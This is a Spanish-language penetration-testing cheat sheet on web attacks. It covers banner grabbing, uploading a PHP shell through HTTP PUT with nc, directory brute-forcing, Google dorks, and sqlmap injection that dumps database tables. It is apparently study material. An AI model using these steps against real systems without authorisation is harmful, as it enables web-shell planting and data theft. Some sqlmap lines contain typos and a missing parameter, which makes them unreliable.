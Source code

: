 # Web Attacks
¿Qué es un ataque basado en la web?
Un ataque a una aplicación web es cualquier intento por parte de un actor malicioso de comprometer la seguridad de una aplicación basada en la web. Los ataques a aplicaciones web pueden tener como objetivo la propia aplicación para obtener acceso a datos confidenciales o pueden usar la aplicación como una publicación para lanzar ataques contra los usuarios de la aplicación.

### Banner grabbing
```
nc -v <target> <port>
HEAD / HTTP/1.0
```

### HTTPS services
```
openssl s_client -connect <target>:<port>
HEAD / HTTP/1.0
```


### Fingerpriting with Httprint
```
httprint -P0 -h <target> -s <signature file>
```


### HTTP Verbs
```
GET, POST, HEAD, PUT, DELETE, OPTIONS
```

### Using PUT to upload shell
```
# Get the content length of the shell
wc -m shell.php
<payload content length output>

# Then using nc to upload with the PUT method
nc <target> <port>
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: <length of payload>
```

### Directory and File Enumeration
La enumeración de archivos y directorios puede conducir a muchos recursos ocultos que podrían contener:

- Funciones nuevas y no probadas
- Archivos de respaldo
- Información de prueba
- Notas del desarrollador

```
# Dirb es una gran herramienta para usar en directorios/archivos de fuerza bruta
dirb http://<target>
  
# Gobuster es otro escáner de directorio/archivo escrito en Go
gobuster -u <target> -w <path to wordlist> -o <file to output to>
```


### Google Dorks
| Comandos              | Uso                                                                                                         |
|-----------------------|-------------------------------------------------------------------------------------------------------------|
| site:                 | Puede usar este comando para incluir solo resultados en un nombre de host determinado.                                    |
| intitle:              | Este comando filtra según el título de una página.                                                          |
| inurl:                | Similar a intitle, pero funciona en la URL de un recurso.                                                   |
| filetype:             | Esto filtra usando la extensión de archivo de un recurso. Por ejemplo, .pdf o .xls.                         |
| AND, OR, &,           | Puede usar operadores lógicos para combinar sus expresiones. Por ejemplo: sitio:ejemplo.com O sitio:otro.com|
| -                     | Puede usar este carácter para filtrar una palabra clave o el resultado de un comando de la consulta.        |

### SQL Injection with SQLMap
```
sqlmap -u <target> -p <paramater> [options]

# Example
sqlmap -u 'http://vicitim.site/search.php?id=2' -p id --technique=U

# Dump contents of a specific table in a database
sqlamp -u 'http://victim.site/search.php?=1' -D <database name> -T <table name> --dump
```

